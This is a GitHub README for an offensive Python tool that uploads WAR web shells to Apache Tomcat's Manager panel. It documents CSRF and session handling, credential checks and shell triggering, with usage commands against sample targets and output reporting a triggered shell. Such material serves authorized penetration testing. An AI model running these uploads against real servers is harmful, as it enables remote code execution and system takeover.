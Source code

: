 # ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.
(Tested on Apache Tomcat/9.0.53)

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```

---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---

## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
